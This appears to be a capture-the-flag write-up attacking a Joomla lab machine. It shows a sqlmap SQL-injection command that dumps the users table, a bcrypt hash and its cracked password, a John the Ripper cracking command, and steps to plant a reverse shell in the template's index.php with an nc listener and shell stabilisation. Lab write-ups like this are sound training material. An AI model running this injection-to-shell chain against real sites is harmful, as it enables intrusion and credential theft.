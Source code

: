 So, as the structure seemed the same as the [official Joomla documentation](https://docs.joomla.org/Tables), i performed the next scan:

```shell
sqlmap -u "http://10.10.133.125/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T "#__users" -C username,password -p list[fullordering] --dump
```

Which gave me the creds:

```shell
jonah ~ $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
```

After getting it, I searched its format:

```shell
# using hash-identifier returned nothing
# so I decided to search in Google about "$2y$ hash format"
So it said it is bcrypt
```

So I passed the following command to John:
- More info in [John 🐈‍⬛](/notes/tools/John_The_Ripper.md)

```shell
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
```

>[!Answer]
>What is Jonah's cracked password?
>`spiderman123`

Then, I got access to Joomla, and performed the RCE explained in my note [Joomla 🦁](/notes/CMS/Joomla.md)
- *As a short summary you paste a reverse shell in the index.php file :D*
- You've got the shell I used in [Reverse shells 👾](reverse_shells.md) (The Pentest Monkey one)

1. Set up a listener: `nc -lvp 666`
2. Paste the shell on the `index.php` at the end of it

![](Pasted%20image%2020240530223428.png)

3. Click on `Save`
4. Reload the main page

![](Pasted%20image%2020240530223601.png)

> We've got a shell :D

To estabilise it, though python3 is not installed, python is by the way, so do:
- Again this info is in [Reverse shells 👾](reverse_shells.md) 

```shell
python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
# Press -> Ctrl + Z
stty raw -echo; fg
```
